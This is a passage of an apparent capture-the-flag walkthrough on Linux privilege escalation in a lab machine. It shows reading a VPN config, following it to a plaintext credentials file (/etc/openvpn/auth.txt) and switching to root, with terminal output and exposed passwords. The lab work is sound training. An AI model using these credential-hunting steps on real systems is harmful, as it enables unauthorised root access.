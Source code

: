 ```bash
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# logout
user@debian:~$ 
```

Answer: `mysql -h somehost.local -uroot -ppassword123`

# [Task 17] Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

List the contents of the user's home directory:

```bash
ls /home/user
```

Note the presence of a myvpn.ovpn config file. View the contents of the file:

```bash
cat /home/user/myvpn.ovpn
```

The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

```bash
su root
```

**Remember to exit out of the root shell before continuing!**

## #1 - What file did you find the root user's credentials in?

```bash
user@debian:~$ ls -l /home/user
total 16
-rw-r--r-- 1 user user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x 1 user user 6697 Jun  1 01:59 service
drwxr-xr-x 8 user user 4096 May 15 06:35 tools
user@debian:~$ cat myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

user@debian:~$ cat /etc/openvpn/auth.txt
root
password123
user@debian:~$ su - root
Password: 
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# logout
user@debian:~$ 
```